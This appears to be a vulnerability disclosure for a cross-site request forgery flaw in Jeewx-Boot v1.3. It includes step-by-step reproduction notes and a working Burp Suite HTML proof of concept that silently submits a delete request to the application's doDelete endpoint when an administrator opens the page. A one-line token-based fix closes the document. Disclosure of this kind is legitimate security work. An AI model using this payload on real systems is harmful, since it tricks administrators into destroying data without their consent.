







## Information

```c
Exploit Title:Jeewx-Boot-v1.3-Cross-site request forgery(CSRF)
Exploit date:01.06.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://github.com/zhangdaiscott/jeewx-boot
Affect Version:Jeewx-Boot-v1.3
Description:There is CSRF vulnerability in jeewx-boot-v1.3. Attackers can construct a malicious page and cheat administrator users to access it, thus causing malicious payload to be triggered.
```

## How to Exploit

Step 1：Add a record



Step 2：Then delete the record and use burpsuite to capture the package



Step 3：After that, use burpsuite to construct CSRF exp



```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://demo.jeewx.com/businesshall/back/wxActBusinesshallRegistration/doDelete.do">
      <input type="hidden" name="id" value="ff80808179bd77900179c66b96e60266" />
      <input type="hidden" name="&#95;" value="1622531610993" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

Step 4：Drop the burpsuite request packet and refresh the page to ensure that the record still exists



Step 5：After accessing the payload in the browser, you can see the successful execution





Step  6：After refreshing the page, it is found that the record has been successfully deleted



## Suggestion

Using token to verify

## Reference

https://github.com/zhangdaiscott/jeewx-boot

